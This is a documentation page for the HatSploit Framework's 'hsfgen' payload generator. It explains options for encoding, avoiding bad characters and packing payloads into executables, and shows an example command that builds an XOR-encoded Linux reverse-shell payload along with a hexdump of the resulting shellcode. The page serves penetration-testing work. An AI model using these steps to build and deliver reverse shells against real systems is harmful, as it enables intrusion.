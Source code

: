 ```yaml
---
layout: default
title: Using hsfgen
parent: Getting Started
nav_order: 9
---
```


The HatSploit Framework provides a native command-line payload generator named `hsfgen`. This tool is included by default with all other HatSploit utilities, offering advanced features for payload generation and encoding.

## Command-line options overview

The `hsfgen` utility includes a variety of command-line options that allow you to specify and customize payload generation. The following is a comprehensive overview of the available options:

```
usage: hsfgen [-h] [-p PAYLOAD] [-e ENCODER] [--platform PLATFORM]
              [--arch ARCH] [-f FORMAT] [--formats] [--payloads] [--encoders]
              [--options option1=value1,option2=value2,...] [-i ITERATIONS]
              [-b BADCHARS] [--pack] [--implant] [-a] [-o OUTPUT]

Native HatSploit Framework advanced payload generator.

options:
  -h, --help            Show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        HatSploit payload.
  -e ENCODER, --encoder ENCODER
                        HatSploit encoder.
  --platform PLATFORM   Specify the target platform for the payload.
  --arch ARCH           Define the payload architecture.
  -f FORMAT, --format FORMAT
                        Generate the payload in a custom format.
  --formats             List all supported formats.
  --payloads            List all available payloads.
  --encoders            List all available encoders.
  --options option1=value1,option2=value2,...
                        Add options for the encoder or payload.
  -i ITERATIONS, --iterations ITERATIONS
                        Specify the number of encoding iterations.
  -b BADCHARS, --badchars BADCHARS
                        Exclude specific bad characters (e.g. \x00).
  --pack                Package the payload as an executable format.
  --implant             Output only the implant rather than the entire payload.
  -a, --assembly        Display the assembly code for payloads.
  -o OUTPUT, --output OUTPUT
                        Save the generated payload to the specified file.
```

## Payload generation

To generate a payload with `hsfgen`, you must use the `-p` and `-e` options to define the payload and its encoder, respectively. Additionally, you can enhance the payload by applying various options:

* `-i`, `--iterations`: Encode the payload a specified number of times.
* `-b`, `--badchars`: Exclude bad characters during payload generation.
* `--options`: Set specific options within the payload or encoder.
* `--pack`: Package the payload into an executable file format.
* `--implant`: Generate only the implant section of the payload, excluding additional components.
* `-f`, `--format`: Choose a custom executable format for the payload.
* `-o`, `--output`: Save the resulting payload to a specified output file.
* `-c`, `--custom`: Define a custom directory containing HatSploit payloads.

## Listing available formats

The following options allow you to explore the available formats, payloads, and encoders:

* `--formats`: Lists all available executable formats (can be combined with the `--platform` option).
* `--payloads`: Displays a list of all available payloads (can be filtered using the `--platform` and `--arch` options).
* `--encoders`: Lists all available encoders (can be filtered using the `--platform` and `--arch` options).

## Sample usage

To generate a basic `linux/x64/shell_reverse_tcp` payload and encode it with `x64/xor`, you can use the following command:

```
hsfgen -p linux/x64/shell_reverse_tcp --options rhost=127.0.0.1,rport=8888 -e x64/xor
```

The output will be similar to:

```hsf
[*] Attempting to generate linux/x64/shell_reverse_tcp...
[i] Payload will be encoded with x64/xor
[*] Writing raw payload (112 bytes)...
00000000  48 31 c9 48 81 e9 b6 ff  ff ff 48 8d 05 ef ff ff |H1.H......H.....|
00000010  ff 48 bb 68 61 74 73 70  6c 36 34 48 31 58 27 48 |.H.hatspl64H1X'H|
00000020  2d f8 ff ff ff e2 f4 02  48 2c ea 1a 6e 69 5e 69 |-.......H,..ni^i|
00000030  3f 7b 76 38 fb 7e 8d 6a  61 56 cb b0 c4 34 5b 39 |?{v8.~.jaV...4[9|
00000040  29 fd 95 1a 7c 6c 5e 42  39 7b 76 1a 6f 68 7c 97 |)...|l^B9{v.oh|.|
00000050  af 1e 52 28 63 33 41 9e  0b 4f 2b e9 24 8d 1b 0a |..R(c3A..O+.$...|
00000060  08 1a 5c 03 04 36 67 20  e8 93 21 27 24 bf d2 67 |.....6g ..!'$..g|
00000070  64                                               |d               |
```

To save the generated payload to a file, you can include the `-o` option in the command.

Additionally, if you want to package the payload into an `ELF` executable format for later execution, you can use the `--pack` option or specify `-f elf` to select the `ELF` format explicitly.

